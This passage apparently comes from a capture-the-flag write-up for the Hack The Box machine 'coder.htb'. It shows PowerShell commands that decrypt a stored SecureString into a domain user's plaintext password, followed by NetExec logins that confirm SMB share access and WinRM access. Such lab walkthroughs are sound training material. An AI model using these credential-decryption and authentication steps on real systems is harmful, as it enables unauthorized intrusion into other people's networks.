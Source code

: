 ```powershell
❯ $user = 'coder.htb\e.black'
❯ $encrypted = gc .\enc.txt
❯ $key = gc .\key.key
❯ $secureObject = ConvertTo-SecureString -String $encrypted -Key $key
❯ $creds = New-Object System.management.Automation.PSCredential($user, $secureObject)
❯ $creds.GetNetworkCredential() | fl

UserName       : e.black
Password       : ypOSJXPqlDOxxbQSfEERy300
SecurePassword : System.Security.SecureString
Domain         : coder.htb
```

It can also be done using `InteropServices`.

```powershell
❯ $decrypted = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($secureObject)
❯ $decrypted = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($decrypted)
❯ $decrypted
ypOSJXPqlDOxxbQSfEERy300
```

I was successfully able to authenticate as E.Black with the new password over SMB and WinRM

```bash
❯ nxc smb 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300
❯ nxc smb 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300' --shares
SMB         10.129.229.190  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:coder.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.190  445    DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300
SMB         10.129.229.190  445    DC01             [*] Enumerated shares
SMB         10.129.229.190  445    DC01             Share           Permissions     Remark
SMB         10.129.229.190  445    DC01             -----           -----------     ------
SMB         10.129.229.190  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.190  445    DC01             C$                              Default share
SMB         10.129.229.190  445    DC01             Development     READ
SMB         10.129.229.190  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.190  445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.229.190  445    DC01             SYSVOL          READ            Logon server share
SMB         10.129.229.190  445    DC01             Users           READ


❯ nxc winrm 10.129.229.190 -u 'e.black' -p 'ypOSJXPqlDOxxbQSfEERy300'
SMB         10.129.229.190  5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:coder.htb)
HTTP        10.129.229.190  5985   DC01             [*] http://10.129.229.190:5985/wsman
HTTP        10.129.229.190  5985   DC01             [+] coder.htb\e.black:ypOSJXPqlDOxxbQSfEERy300 (Pwn3d!)
```
